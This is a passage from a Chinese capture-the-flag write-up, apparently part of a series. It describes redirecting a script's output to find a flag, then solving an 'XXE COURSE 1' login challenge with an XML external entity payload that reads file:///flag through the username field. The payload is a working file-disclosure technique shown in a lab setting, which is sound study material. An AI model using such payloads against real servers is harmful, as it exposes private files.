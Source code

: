 
重定向
```bash
python hello.py > out.txt  
```  

然后在out.txt中搜索flag  
![alt text](image-29.png)

---  

## XXE COURSE 1  
一个登录界面，输入提交之后有回显，抓包发现是用xml格式发送数据  
![alt text](image-30.png)  

---

直接找flag
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY f SYSTEM "file:///flag">
]>
<root> <username>&f;</username> <password>asdg</password> </root>
```  
---  

可以找到  
![alt text](image-31.png)  

---  